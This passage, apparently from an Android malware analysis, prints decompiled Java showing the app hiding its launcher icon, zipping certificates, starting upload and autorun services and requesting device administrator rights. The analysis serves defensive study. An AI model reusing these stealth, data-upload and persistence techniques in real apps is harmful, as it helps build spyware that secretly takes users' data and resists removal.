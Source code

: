 However, the icon is then hidden, suggesting that the app hasn't been installed:

![hidden_icon](hidden_icon.png)

It's done in the class `MainA` (or `MainActivity`), where we can find this routine:

> ```java
>private void HideIcon(){
>	getPackageManager().setComponentEnabledSetting(getComponentName(), 2, 1);
>}
> ```

Let's analyse the routine `onCreate` (approximation):

> ```java
>protected void onCreate(Bundle paramBundle){
>	super.onCreate(paramBundle);
>	getWindow().requestFeature(1);
>	setContentView(2130903040);
>	this.pm = getPackageManager();
>	File file = new File(this.url.getSDPath1() + "/temp");
>	if (!file.exists()) {
>		file.mkdirs();
>	}
>	this.url.deleteFoder("args.txt");
>	new Thread(){
>		public void run(){
>			MainA.this.zipCert();
>		}
>	}.start();
>	startService(new Intent(this, uploadPhone.class));
>	startService(new Intent(this, SoftService.class));
>	startService(new Intent(this, UninstallerService.class));
>	startService(new Intent(this, uploadContentService.class));
>	startService(new Intent(this, autoRunService.class));
>	this.policyManager = ((DevicePolicyManager)getSystemService("device_policy"));
>	this.componentName = new ComponentName(this, MDAR.class);
>	if (!this.policyManager.isAdminActive(this.componentName)) {
>		getAdmin();